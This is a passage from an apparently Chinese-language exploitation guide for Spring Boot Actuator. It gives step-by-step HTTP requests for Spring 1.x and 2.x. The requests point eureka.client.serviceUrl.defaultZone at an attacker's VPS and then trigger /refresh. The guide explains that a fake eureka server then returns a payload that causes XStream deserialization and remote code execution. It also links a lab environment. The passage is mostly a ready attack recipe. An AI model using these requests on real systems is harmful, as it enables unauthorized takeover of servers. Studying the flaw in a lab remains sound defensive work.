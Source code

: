 spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example"}
```



##### 步骤四：刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```



#### 漏洞原理：

1. eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka server URL 地址
2. refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server 就会返回恶意的 payload
3. 目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞



#### 漏洞分析：

​	[Spring Boot Actuator从未授权访问到getshell](https://www.freebuf.com/column/234719.html)



#### 漏洞环境：

[repository/springboot-eureka-xstream-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-eureka-xstream-rce)

正常访问：

```
http://127.0.0.1:9093/env
```
